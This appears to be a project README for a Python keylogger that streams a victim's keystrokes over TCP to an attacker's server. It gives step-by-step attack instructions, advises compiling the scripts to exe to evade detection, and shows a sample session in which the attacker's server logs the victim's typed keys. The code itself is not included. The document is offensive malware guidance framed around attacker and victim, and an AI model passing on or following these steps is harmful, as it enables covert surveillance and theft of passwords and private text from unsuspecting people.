 # Chrome_keylogger
A keylogger that shares keystrokes over a local TCP connection.

## How to attack:
First of all, you can edit the code a bit and compile all the scripts into exe for less detection.

Follow these steps:

  - The attacker must run the server script then bind the server's IP and port. 
  - The victim must run the malware, as soon as the malware starts, the keylogger will start and the TCP client script will automatically connect to the TCP server.
  - The attacker will start receiving keystrokes from the victim's computer.

## Deeper demonstration:
Attacker:
    
    attacker@kali:~$ python3 server.py
    
    IP: 192.168.x.x
    Port: 8080
    Client (client_ip) connected.
    
    2020-10-12 22:05:35,120: 'h'
    2020-10-12 22:05:35,390: 'i'
    2020-10-12 22:05:36,258: Key.space
    2020-10-12 22:05:36,631: 't'
    2020-10-12 22:05:36,806: 'h'
    2020-10-12 22:05:36,963: 'e'
    2020-10-12 22:05:37,080: 'r'
    2020-10-12 22:05:37,168: 'e'
    
Victim:

    victim@kali:~$ python3 program.py    
